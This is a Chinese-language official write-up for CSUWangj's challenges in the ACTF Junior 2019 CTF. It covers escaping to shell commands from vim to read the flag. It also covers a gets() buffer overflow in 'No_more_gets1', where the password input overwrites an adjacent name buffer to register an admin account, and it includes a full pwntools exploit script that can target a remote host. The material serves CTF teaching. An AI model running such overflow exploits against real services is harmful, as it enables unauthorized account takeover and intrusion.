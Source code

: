 +++
title = "ACTF Junior 2019 Official WriteUP of CSUWangj's Challenge"
date = 2019-02-28T15:55:24+00:00
updated = 2020-08-07T02:01:26.829857+00:00
in_search_index = true

[taxonomies]
tags = [ "CTF", "Crypto", "Misc", "Forensics", "PWN",]
categories = [ "WriteUp",]
archives = [ "archive",]
+++
日常出锅、、、



# Linux&PWN

## vim

首先要了解vim的几个模式

然后vim在普通模式下是可以执行Linux命令的，然后就可以ls, cat flag之类的了。

感谢各位没有把容器玩坏。

## No_more_gets1

查看[源码](https://github.com/CSUwangj/ACTF_Junior_2019/blob/master/Linux%26PWN/No_more_gets2/src/src.c)，问题出在[第140行（rigist()+12）](https://github.com/CSUwangj/ACTF_Junior_2019/blob/master/Linux%26PWN/No_more_gets1/src/src.c#L140)，passwdbuf在namebuf前面，所以gets的时候可以把namebuf覆盖掉，于是就能强行注册一个密码自己设定的admin。

一个可用的exp（来自给力的学弟）如下：

```python
from pwn import *
import sys
# context.log_level='debug'

if args['REMOTE']:
    sh = remote(sys.argv[1], sys.argv[2])
else:
    sh = process("./a.out")

payload=0x10 * 'a' + p64(0x0) + p64(0x555555555607)

sh.recvuntil("6) Exit")
sh.sendline("3")
#gdb.attach(sh)
#gdb.attach(sh)
sh.recvuntil("Input your name")
sh.sendline('father')
sh.recvuntil('Input your password')
sh.sendline('aaaaaaaaaaaaaaa\0admin\0')
sh.recvuntil("6) Exit")
sh.sendline('2')
sh.sendline('admin')
sh.sendline('aaaaaaaaaaaaaaa')
sh.sendline('4')
print sh.recvuntil('}')
sh.sendline('6')
```

